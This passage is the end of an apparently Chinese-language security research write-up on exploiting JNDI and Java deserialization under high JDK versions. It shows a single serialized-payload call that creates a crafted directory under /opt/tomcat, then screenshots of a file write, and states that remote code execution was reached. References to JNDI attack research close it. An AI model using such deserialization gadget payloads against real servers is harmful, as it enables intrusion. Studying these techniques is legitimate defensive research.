 
```bash
Serializable payload8 = XyzFileMkdir1.getObject("/opt/tomcat/aaa/bbb/http:/192.168.176.1:8888/whatever");
```

成功创建这样的目录：

[![](assets/1701827139-b5b84f8dfbc1be9d1764161cd1890014.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128154136-8f350e16-8dc1-1.png)

然后实现文件写入：

[![](assets/1701827139-066538bbc48fe15fadd9a05763aa05ee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129101856-a613a7c2-8e5d-1.png)

[![](assets/1701827139-43983525f443cfc5522ebd358d9f4c26.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128154841-8c857218-8dc2-1.png)

[![](assets/1701827139-1f695611fe91d97066b622ddeb59f226.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128154844-8e82f162-8dc2-1.png)

至此，终于实现了 RCE。

## References

-   [探索高版本 JDK 下 JNDI 漏洞的利用方法](https://tttang.com/archive/1405/)
-   [探索 JNDI 攻击](https://github.com/iSafeBlue/presentation-slides/blob/main/BCS2022-%E6%8E%A2%E7%B4%A2JNDI%E6%94%BB%E5%87%BB.pdf)
